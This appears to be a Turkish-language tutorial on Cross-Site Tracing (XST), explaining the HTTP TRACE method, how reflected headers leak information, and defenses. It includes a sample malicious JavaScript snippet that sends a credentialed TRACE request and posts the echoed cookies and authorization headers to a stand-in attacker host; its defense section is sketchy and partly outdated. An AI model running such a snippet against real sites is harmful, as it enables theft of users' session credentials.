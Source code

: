 # XST
TRACE HTTP metodunun kötüye kullanılmasıyla ortaya çıkan bir güvenlik zafiyetidir. TRACE metodu, gönderilen HTTP isteğini aynen geri döndürür. Saldırgan bu özelliği kullanarak, hedef kullanıcının hassas bilgilerini çalabilir. Normal XSS saldırısında JavaScript kodu direkt olarak sayfada çalışır. XST’de ise TRACE metodunun geri dönen isteğini kötüye kullanarak hassas veriler çalınır.

# HTTP TRACE Metodu Nedir
HTTP TRACE, bir istemcinin yaptığı isteğin, hedef sunucu tarafından değişmeden geri gönderilmesini sağlar. Yani, istemciden gelen HTTP isteği sunucu tarafından alınıp, aynen yanıtın içerisinde döndürülür. İstemci ile sunucu arasındaki HTTP isteğinin aracı katmanlar (proxy, firewall, load balancer vs.) tarafından değiştirilip değiştirilmediğini test etmek için kullanılır.

Örnek HTTP TRACE isteği:
```http
TRACE /index.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
```

Sunucunun yanıtı:
```html
HTTP/1.1 200 OK
Content-Type: message/http

TRACE /index.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
```

# Saldırının İşleyişi
XST saldırısında, saldırgan genellikle hedef web sitesine TRACE isteği gönderen JavaScript kodunu kurbanın tarayıcısında çalıştırır. JavaScript üzerinden XMLHttpRequest veya fetch API ile HTTP TRACE metodunu kullanarak isteği tetikler. 

Örnek kötü amaçlı JavaScript:
```javascript
var xhr = new XMLHttpRequest();
xhr.open('TRACE', 'https://example.com.com/', true);
xhr.withCredentials = true;
xhr.onload = function() {
  fetch('https://saldirgansite.com/steal', {
    method: 'POST',
    body: xhr.responseText
  });
};
xhr.send();
```

Bu istek içinde genellikle:
- Cookie header'ı.
- Authorization header'ı (JWT, Basic Auth).
- Diğer hassas header’lar (CSRF token vb.),

Tek başına XST, doğrudan sunucudan zararlı kod yerleştirmez, sadece TRACE metodunun varlığından faydalanır.

# TRACE ile Information Disclosure Mantığı
TRACE metodunun olayı zaten isteğin olduğu gibi geri dönmesi. Sunucunun yanıt gövdesinde senin gönderdiğin tüm HTTP header’lar döner. Bu header’ların içinde bazen:
- Proxy veya load balancer eklediği iç IP adresleri (X-Forwarded-For, Via gibi)
- İç ağ hostname bilgileri
- Versiyon bilgileri (Apache, Nginx, Tomcat versiyonu)

Gibi aslında dışarıya verilmemesi gereken bilgiler yer alabilir.

# XST Saldırısından Korunmak
## Sunucu Tarafında XST Saldırısından Korunmak
HTTP/1.1 standardında TRACE metodu diagnostik amaçlı tanımlanmıştır. Ancak modern uygulamalarda gereksiz olduğu halde bazı sunucularda (özellikle default config’te) kapatılmaz. 

## İstemci Tarafında XST Saldırısından Korunmak
Normalde tarayıcılar TRACE gibi bazı metodlara JavaScript üzerinden erişimi kısıtlar.
Ancak iki senaryo zafiyeti mümkün kılar:
- XSS zafiyeti: Saldırgan hedef sitede script çalıştırabildiğinde TRACE isteğini doğrudan o domain üzerinden gönderebilir (Same-Origin Policy engel olmaz).
- Yanlış yapılandırılmış CORS: Hedef sunucu Access-Control-Allow-Origin: * ve Access-Control-Allow-Credentials: true gibi zayıf CORS ayarlarıyla TRACE yanıtını farklı origin’den okunabilir hale getirirse, saldırgan kendi domain’inden bile veri çekebilir.
